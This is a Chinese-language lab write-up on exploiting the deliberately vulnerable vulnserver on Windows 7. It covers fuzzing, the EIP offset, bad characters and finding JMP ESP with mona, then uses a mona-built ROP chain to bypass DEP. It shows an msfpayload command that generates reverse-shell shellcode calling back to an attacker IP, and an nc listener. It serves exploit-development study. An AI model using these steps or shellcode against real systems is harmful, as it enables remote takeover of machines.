



# 利用 ROP 绕过 DEP（Defeating DEP with ROP）调试笔记

2014/11/05 10:19 | [Debug_Orz](http://drops.wooyun.org/author/Debug_Orz "由 Debug_Orz 发布") | [二进制安全](http://drops.wooyun.org/category/binary "查看 二进制安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

本文根据参考文献《Defeating DEP with ROP》，调试 vulserver，研究 ROP (Return Oriented Programming)基本利用过程，并利用 ROP 绕过 DEP (Data Execution Prevention)，执行代码。 0x00 ROP 概述 缓冲区溢出的目的是为了控制 EIP，从而执行攻击者构造的代码流程。

防御缓冲区溢出攻击的一种措施是，选择将数据内存段标记为不可执行，


随着攻击技术的演进，产生了 ROP (Return-Oriented Programming)，Wiki 上中文翻译为“返回导向编程”。下面的结构图回顾了 Buffer overflow 的发展历史和 ROP 的演进历史，不同的颜色表示了不同的研究内容，分为表示时间杂项标记、社区研究工作、学术研究工作，相关信息大家可以在网上查找。


由于 DEP 的存在，为了执行代码重用攻击，攻击者构造 ROP Chain，通过寻找小部件（Gadget），将复杂操作转化为小操作，然后执行有用操作的短指令序列。例如，一个 Gadget 可能是让两个寄存器相加，或者从内存向寄存器传递字节。攻击者可以将这些 Gadget 链接起来从而执行任意功能。

链接 Gadget 的一种方式是寻找以 RET 结尾的指令序列。RET 指令等效于 POP+JUMP，它将当前栈顶指针 ESP 指向的值弹出，然后跳转到那个值所代表的地址，继续执行指令，攻击者通过控制 ESP 指向的值和跳转，达到间接控制 EIP 的目的，在 ROP 利用方法下 ESP 相当于 EIP。如果攻击者可以控制栈空间布局，那么他就可以用 RET 控制跳转，从而达到间接控制 EIP 的目的。

下面举一个简单例子，说明 ROP 构造 Gadget 过程，栈空间形式化表示如下：


Gadget 构造过程描述：

*   假设攻击者打算将 V1 值写入 V2 所指向的内存空间，即 Memory[V2] = V1；

*   攻击者控制了栈空间，能够构造栈空间布局；

*   **攻击者采用间接方式，寻找等效指令实现**，通过寻找 Gadget 指令实现；

*   攻击者找到 Gadget，pop eax; ret。pop eax 会将当前栈顶指针 ESP 所指向的内容 V1 存入寄存器 EAX 中。ESP 值加 4，指向新地址 ESP=[ESP+4]。RET 指令会将 ESP 新指向的内容 a3 存入寄存器 EIP 中，然后 CPU 会跳转到值 a3 所指向的地址执行。因此**RET 指令能够根据栈空间上的值，控制程序的跳转地址**；

*   类似的 pop ebp; ret 能够为 ebp 赋值，并让程序跳转到所指向的地址；

*   攻击者如果继续使用 gadget，mov ebp,eax; ret，这将 eax 中的值移动到 ebp 所指向的地址中；

*   通过构造栈空间内容，让 CPU 按顺序执行上述 Gadget，攻击者能够控制 eax 和 ebp 的值，并让 eax 的值写入地址 ebp 中。

*   借助 Gadget，通过等效变换，攻击者可以向任意内存写入。

Gadget 执行过程描述：

1） 初始时，栈顶指针为 ESP，所指向内容为 V1，EIP=a1。

2） POP 操作，ESP 值加 4，POP 相当于内存传送指令。

3） POP 和 MOV 指令执行完，CPU 会继续向下顺序执行。

4） RET 相当于 POP+JMP，所以 RET 操作，ESP 值也会加 4。


ROP 利用 Gadget 图形示意：


## 0x01 调试环境和工具

* * *


## 0x02 DEP 默认设置，测试反弹 shell

* * *

**查询 DEP 的状态**

根据微软官方说明：http://support.microsoft.com/kb/912923/zh-cn


运行命令：

```
wmic OS Get DataExecutionPrevention_SupportPolicy 
```


状态码为 2，说明是默认配置。

另外，实验中，需要关闭 Window 7 防火墙。


查询运行 vulserver 的 Windows 7 系统 IP 地址：192.168.175.130。

**启动存在漏洞的服务器。**


**服务器连接测试**

攻击端远程连接 `nc 192.168.175.130:9999`，测试服务器连接状态。


**查看服务器端网络状态**


**生成测试脚本**


在 Kali Linux 上生成测试脚本，文本编辑`nano vs-fuzz1` ，权限修改 `chmod a+x vs-fuzz1`， 执行脚本 `./vs-fuzz1` 。

**测试 vulserver 缓冲区大小**

测试 TRUN 命令，测试接受字符大小，查看 vulserver 服务器崩溃情况。




不断调整字符长度，从 100 到 2000，大小为 2000 时程序崩溃。


备注：由于实验环境在其他测试中，设置了默认调试器，当 vulserver 服务崩溃后，Windbg 直接跳出，捕获异常。


修改默认调试器设置注册表，`If Auto is set to 0, a message box is displayed prior to postmortem debugging`。

在 32 位 Windows 7 系统下，注册表在`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\AeDebug`。 键值 Debugger 为 windbg。


在 64 位 Windows Server2008 系统下，注册表`HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug`。


将 Auto 值设置为 0 后，重新打开 vulserver.exe，Kali 端重新发送数据，可以看到系统弹出了崩溃对话框。


**打开调试器，附加进程**

为了进一步测试，程序崩溃情况，打开 Immunity Debugger 调试器，附加进程。


附加调试器后，重新发送数据包，选择发送字符长度 3000，在调试器左边窗口的下部，可以看到 "Access violation when writing to [41414141] "。


"41" 是字符 A 的十六进制表现，具体对应表如下图。


这说明发送的“A”字符以某种方式由服务器程序错误地作为地址写入。由于地址是 32 位，也就是 4 个字节，而“A”的十六进制表示为 41，所以地址变成了`41414141`。

这是一个典型的缓冲区溢出攻击，当一个子例程返回时，注入的字符`41414141`被放入 EIP 中，所以它成为下一条将要执行的指令地址。 但`41414141`是不是一个有效的地址，无法继续执行，所以调试器检测到程序崩溃并暂停，所以显示了 Access violation。

从调试结果而言，程序存在溢出，存在可以被利用的漏洞。

开发漏洞利用程序的一种通常方式是，攻击字符长度固定，从而产生不同结果。本实验后续都使用字符长度 3000 来进行调试。


**生成非重复模式的字符**

为了精确表示哪些字符注入到 EIP 中，需要生成非重复的字符，具体代码如下。


在 Kali Terminal 中输入命令，`chmod a+x vs-eip0`，使程序可执行。


执行脚本 `./vs-eip0`，可以看到生成的模式 (pattern)都是 3 个数字加一个 A。


如果形象化展示，中间添加空格，该模式是这样的：

```
000A 001A 002A 003A 004A 
             ...
250A 251A 252A 253A 254A 
             ...
495A 496A 497A 498A 499A 
```

我们得到 500 组，每组 4 个字符，从 000A 到 499A,总共 2000 个字节。

添加生成的字符，重新生成具有区分度的测试脚本如下。


再次执行。


通过调试器，可以发现"Access violation when executing [35324131]"。


下面将十六进制转为字符表示：

```
Hex  Character
---  ---------
 35      5
 32      2
 41      A
 31      1 
```

因此，字符是“52A1”。然而，由于英特尔处理器是“小端字节序”，所以地址被反序输入，所以输入到 EIP 中的实际字符是“1A25”。

我们输入的字符串在内存中的表示如下所示：


则不用借助于类似 pattern_offset.rb 之类的 ruby 脚本，可以从图形上快速计算出偏移值，251 个四字节+2 个字节。

模式'1A25'出现在 251×4+2=1004+2=1006 个字节之后

由于程序是在接收了 2000 字符之后崩溃，所以测试脚本在非重复模式之前添加了 1000 个 A 字符，则 EIP 包含 4 个字节是在 2006 字节之后。

**控制 EIP 指向地址**

在 2006 字节之后添加 BCDE，使程序溢出后，EIP 被覆盖为 BCDE，后面继续填充许多 F，以管理员模式运行 Immunity Debugger 和测试脚本。


调试器捕获异常，"Access violation when executing [45444342]"，说明成功了，因为十六进制值是反序显示“BCDE”。



**查看内存中 ESP 的值**

当子例程返回后，我们来看一下 ESP 所指向的值。溢出之后，在 ESP 所指向的空间(01C1F9E0)写入了许多 FFFF。


**测试坏字符**

漏洞利用程序通过欺骗程序，插入代码到数据结构。

通常而言，以下这些字符会带来麻烦:


并不是上述所有字符会带来麻烦，也有可能存在其他坏字符。所以，接下来的任务是设法注入它们，看看会发生什么。

为了进一步测试坏字符，程序会向服务器发送一个 3000 字节，其中包括 2006 个“A”字符，随后是“BCDE”，程序返回结束后，它应该在 EIP 中，然后是所有 256 个可能的字符，最后是足够的“'F”字符，使得总长度为 3000 个字节。执行过程如下所示。


查看调试器左下侧窗口。第一个字节是 00，但其它字符没有注入到内存中，既不是其他 255 个字节，也不是“F”字符。说明发生了 00 字节结束的字符串。 只有'\ X00'是坏字符。





**查找合适的模块**

已经控制了 EIP，现在需要让它指向我们希望的地址，我们需要在 ESP 所执行的位置执行代码。

能起作用的两个最简单指令是“JMP ESP”和两个指令序列“PUSH ESP; RET”。

为了找到这些指令，我们需要检查 Vulnerable Server 运行时载入的模块。

下面利用 Immunity Debugger 插件 mona.py，下载后将 mona.py 放置在程序安装目录`C: \Immunity Inc\Immunity Debugger\PyCommands`中。


运行服务器程序，在调试器命令输入窗口中运行

```
!mona modules

```


由于 Windows 7 引入了 ASLR，它导致**模块的地址在每次启动之后都会发生变化**。改变它每次重新启动时模块的地址。

为了得到可靠的漏洞利用程序，我们需要一个模块不带有 ASLR 和 Rebase。

从下图中可以发现，有两个模块 Rebase 和 ASLR 列都显示为"False"，它们是 essfunc.dll 和 vulnserver.exe。


然而，由于 vulnserver.exe 加载在非常低的地址值，开始于 0x00，因此，任何引用该地址的 vulnserver.exe 将会获得一个空字节，而由于'\X00'是坏字符，所以它将不起作用而不能使用，因此，唯一可用的模块是 essfunc.dll。 12 测试跳转指令 利用 metasploit 中的 nasm_shell，可以显示"JMP ESP"和"POP ESP; RET"指令的汇编表示，分别是 FFE4 和 5CC3。

如果我们能在 essfunc.dll 中找到这些字符序列，那么我们就能用它们开发漏洞利用程序。


在调试器中使用如下命令：

```
!mona find -s "\xff\xe4" -m essfunc.dll 
```

共发现 9 个，我们使用第一个地址`625011af`。


**生成反弹 shell 代码**

查询攻击端 IP 地址，作为受害端反向连接的 IP。


指定 IP、端口、编码器 x86/shikata_ga_nai 生成 shellcode。

```
msfpayload windows/shell_reverse_tcp LHOST="192.168.175.142" LPORT=443 EXITFUNC=thread R | msfencode -e x86/shikata_ga_nai -b '\x00' 
```


生成完整测试代码。


运行`nc -nlvp 443`，监听 443 端口。


运行 vulserver，攻击端执行测试脚本 ./vs-shell，发送数据。


攻击端获得反弹 shell，可以查询信息。


**测试栈空间代码执行情况**

在基本 DEP 开启条件下，测试漏洞代码在内存空间上的可执行情况。


NOP 滑行区有许多“90”，最后跟着的是“CC”，说明可以向内存中注入并执行代码，代码为可执行状态。


## 0x03 DEP 全部开启，测试反弹 shell

* * *

**DEP 全部开启**


**再次运行 JMP ESP**

在 DEP 全部开启的状态下，再次运行./vs-rop1，调试器显示"Access violation"。


我们不能在栈空间上执行任何代码，甚至 NOP 也不行，无法单步执行。DEP 是一个强大的安全功能，阻挡了许多攻击。下面通过 ROP 来绕过 DEP。

理论上来说，我们可以用 ROP 构造出整个 Metasploit 载荷，例如，反向连接（reverse shell），但那需要花费大量的时间。在实际应用中，我们只需要用 ROP 关闭 DEP 即可，这是一个简单而优雅的解决方案。

为了关闭 DEP，或在 DEP 关闭后分配内存空间，可以使用的函数有：VirtuAlloc(), HeapCreate(), SetProcessDEPPolicy(), NtSetInformationProcess(), VirtualProtect(), or WriteProtectMemory()。

拼凑“Gadgets”（机器语言代码块）是一个相当复杂的过程，但是， MONA 的作者已经为我们完成了这项艰难的工作。

```
!mona rop -m *.dll -cp nonull 
```

MONA 会搜寻所有的 DLL，用于构造有用的 Gadgets 链，可以想象，这是一个花费时间的工作。

**生成 ROP Chain**

使用 mona，我在开了 2G 内存的虚拟机中，运行消耗了 0:08:39。


mona 生成的 rop_chains.txt，Python 代码部分。


**测试 ROP Chain**

通过 ROP 构造测试代码，再次运行，NOP 滑行区有许多“90”，最后跟着的是“CC”，说明 ROP 链关闭了 DEP，向栈上注入的代码可以被执行了，注入的代码是 16 个 NOP 和一个中断指令 INT 3。


如果我们单步执行，EIP 能够继续往下执行，而不会产生访问违例（Access violation）。


**利用 ROP 反弹 shell**

将 ROP 代码加入，添加反弹 shell 的代码，修改生成测试脚本，开启 nc -nlvp 443，启动服务端程序，执行程序 vs-rop3。


开启 nc 监听端口 443，获得反弹 shell，在攻击端查看 Window 7 系统上 DEP 状态，DataExecutionPrevention_SupportPolicy 状态码为 3，即所有进程都开启 DEP 情况下，利用 ROP 溢出成功。


反弹连接成功后，在服务端，查看连接状态信息。


使用 TCPView 查看，443 端口是 https 连接。


## 0x04 参考文献

* * *

1) https://samsclass.info/127/proj/vuln-server.htm

2) https://samsclass.info/127/proj/rop.htm

3) http://www.thegreycorner.com/2010/12/introducing-vulnserver.html

4) http://resources.infosecinstitute.com/stack-based-buffer-overflow-tutorial-part-1-%E2%80%94-introduction/

5) http://en.wikipedia.org/wiki/Return-oriented_programming

6) http://blog.zynamics.com/2010/03/12/a-gentle-introduction-to-return-oriented-programming/

7) https://users.ece.cmu.edu/~dbrumley/courses/18487-f13/powerpoint/06-ROP.pptx

8) http://www.slideshare.net/saumilshah/dive-into-rop-a-quick-introduction-to-return-oriented-programming

9) http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html

10) http://blog.harmonysecurity.com/2010/04/little-return-oriented-exploitation-on.html

11) http://jbremer.org/mona-101-a-global-samsung-dll/

12) https://www.corelan.be/index.php/2011/07/03/universal-depaslr-bypass-with-msvcr71-dll-and-mona-py/

13) http://www.fuzzysecurity.com/tutorials/expDev/7.html

14) http://hardsec.net/dep-bypass-mini-httpd-server-1-2/?lang=en

版权声明：未经授权禁止转载 [Debug_Orz](http://drops.wooyun.org/author/Debug_Orz "由 Debug_Orz 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [逆向基础（十一）](http://drops.wooyun.org/tips/2812)
*   [PHP 中的内存破坏漏洞利用（CVE-2014-8142 和 CVE-2015-0231）（连载之第一篇）](http://drops.wooyun.org/papers/4864)
*   [Blind Return Oriented Programming (BROP) Attack – 攻击原理](http://drops.wooyun.org/tips/3071)
*   [CVE2014-6287 分析报告](http://drops.wooyun.org/papers/3091)
*   [漏扫工具 AWVS 命令执行](http://drops.wooyun.org/papers/1501)
*   [CVE-2014-4113 漏洞利用过程分析](http://drops.wooyun.org/papers/3331)